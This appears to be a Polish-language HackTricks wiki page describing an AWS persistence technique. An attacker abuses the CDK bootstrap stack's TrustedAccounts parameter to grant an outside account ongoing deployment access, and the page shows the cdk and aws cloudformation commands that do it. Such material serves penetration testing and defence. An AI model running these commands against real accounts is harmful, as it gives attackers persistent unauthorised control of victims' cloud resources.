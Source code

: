 # AWS - Cloudformation Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

Więcej informacji:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK wdraża CFN stack o nazwie `CDKToolkit`. Ten stack obsługuje parametr `TrustedAccounts`, który pozwala zewnętrznym kontom wdrażać projekty CDK do konta ofiary. Atakujący może to wykorzystać, aby przyznać sobie dostęp na czas nieokreślony do konta ofiary, albo używając AWS cli do ponownego wdrożenia stacka z parametrami, albo używając AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}
